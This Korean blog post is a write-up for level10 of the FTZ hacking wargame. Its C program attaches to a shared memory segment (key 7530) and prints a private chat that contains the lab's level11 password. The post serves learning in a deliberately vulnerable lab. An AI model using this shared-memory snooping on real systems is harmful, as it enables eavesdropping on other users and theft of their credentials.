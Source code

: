```yaml
---
title: "[FTZ] level10 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "level10 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ level10 풀이
{: .notice--warning}


# 문제

계정 : level10/interesting to hack!

**hint**
```

두명의 사용자가 대화방을 이용하여 비밀스런 대화를 나누고 있다.
그 대화방은 공유 메모리를 이용하여 만들어졌으며,
key_t의 값은 7530이다. 이를 이용해 두 사람의 대화를 도청하여
level11의 권한을 얻어라.

- 레벨을 완료하셨다면 소스는 지우고 나가주세요.

```

# 풀이

공유 메모리에 존재하는 문자열을 읽어오는 문제입니다.

'리눅스 공유 메모리' 를 구글에 검색해서 가장 상단에 있는 포스팅을 참고하여 코드를 작성했습니다.

![image](https://user-images.githubusercontent.com/33647663/167300739-b164cc3b-5c75-4782-84cc-62b4bb845c51.png)

전체 코드는 다음과 같습니다.

**prog.c**
```c
#include <sys/ipc.h>
#include <sys/shm.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

int main(){
  int shmid;
  char *secret;
  key_t key=7530;
  void *memory_segment = NULL;

  shmid = shmget(key,0,0);  //key 값을 통해 공유 메모리 id 얻기
  memory_segment = shmat(shmid,NULL,0); // 공유 메모리 위치

  secret = (char*)memory_segment; //char*로 캐스팅
  printf("%s\n",secret);
}

```

컴파일 후 실행해 줍니다. 비밀번호는 **what!@#$?**입니다.

```sh
[level10@ftz tmp]$ gcc -o prog prog.c
[level10@ftz tmp]$ ./prog
멍멍: level11의 패스워드는?
구타: what!@#$?
```


